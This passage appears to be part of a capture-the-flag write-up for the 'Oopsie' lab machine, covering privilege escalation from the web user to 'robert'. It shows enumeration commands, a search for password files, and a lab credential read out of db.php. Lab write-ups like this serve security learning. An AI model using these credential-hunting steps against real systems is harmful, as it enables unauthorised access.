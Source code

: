 ![image-20231122012837530](./Oopsie.assets/image-20231122012837530.png)

## Privilege Escalation

### www->robert

- enumeration

```
$ uname -a
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.3 LTS"
NAME="Ubuntu"
VERSION="18.04.3 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.3 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
```

- sudo [x]
- suid guid [x]
- find the file with passwords

```
$ pwd
/var/www/html/cdn-cgi/login
$ ls -al
total 28
drwxr-xr-x 2 root root 4096 Jul 28  2021 .
drwxr-xr-x 3 root root 4096 Jul 28  2021 ..
-rw-r--r-- 1 root root 6361 Apr 15  2021 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5349 Apr 15  2021 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js

$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
